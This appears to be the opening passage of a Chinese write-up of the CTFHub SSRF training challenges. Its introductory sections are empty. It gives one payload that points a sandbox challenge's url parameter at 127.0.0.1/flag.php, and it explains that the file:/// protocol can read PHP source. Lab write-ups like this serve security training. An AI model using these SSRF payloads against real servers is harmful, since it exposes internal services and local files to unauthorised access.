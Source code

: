 # 原创
：  CTFHub SSRF

# CTFHub SSRF

#### CTFHub SSRF

## SSRF简介

> 



> 



> 



## 漏洞攻击方式

> 



## CTFHub SSRF靶场

### 第一部分（http、dict和file等协议的利用）

#### 内网访问

> 
题目描述：尝试访问位于127.0.0.1的flag.php吧


> 
Payload


```
http://challenge-eb4649dbccfa6c7d.sandbox.ctfhub.com:10800/?url=http://127.0.0.1/flag.php

```

#### 伪协议读取文件

> 
题目描述：尝试去读取一下Web目录下的flag.php吧


> 
在ssrf中常用的伪协议就是`file:///`协议，其在ssrf中可以用来读取php源码


> 
Payload
